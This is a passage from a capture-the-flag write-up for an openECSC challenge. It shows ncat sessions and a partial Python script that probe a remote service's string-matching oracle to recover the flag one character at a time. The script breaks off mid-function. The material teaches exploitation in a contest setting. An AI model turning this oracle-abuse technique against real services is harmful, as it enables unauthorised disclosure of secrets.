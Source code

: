 Let me test this manually:

```bash
$ ncat --ssl <host> 31337
Index? 219
Character? o
Search string? openECSC{
Target string? test
Result: false
Now I will test my flag: false  # Match! Flag starts with "openECSC{"
```

```bash
$ ncat --ssl <host> 31337
Index? 219
Character? o
Search string? openECSC{X
Target string? test
Result: false
Now I will test my flag: true   # No match! Not 'X'
```

**Perfect!** The exploit works. Now I just need to automate it.

#### Building the Exploit Script

The Python script needs to:
1. Connect via SSL
2. Send index `219` and character `o`
3. Send search pattern `known_flag + test_char`
4. Send dummy target string
5. Parse the flag check result (`false` = match, `true` = no match)
6. Repeat for each character until we find `}`

**Initial attempts failed** because:
- ❌ Timing issues with `recv()` cutting off output
- ❌ Charset too small, missing special characters like `:`, `/`, `.`

**Final working exploit**:

```python
def exploit_character(host, port, known_flag, test_char):
    context = ssl.create_default_context()
    with socket.create_connection((host, port)) as raw_sock:
        with context.wrap_socket(raw_sock, server_hostname=host) as sock:
            recv_until(sock, "Index?")
            send_line(sock, "219")
            recv_until(sock, "Character?")
            send_line(sock, "o")
            recv_until(sock, "Search string?")
            
            # Test prefix + new character
            send_line(sock, known_flag + test_char)
            recv_until(sock, "Target string?")
            send_line(sock, "test")
            
            # Read until we get the flag check line
            full_output = b""
            while b"Now I will test my flag:" not in full_output:
                full_output += sock.recv(1024)
            time.sleep(0.2)
            full_output += sock.recv(1024)
            
            # Extract result
            output_text = full_output.decode()
            lines = output_text.strip().split("\n")
            last_line = lines[-1]
            
```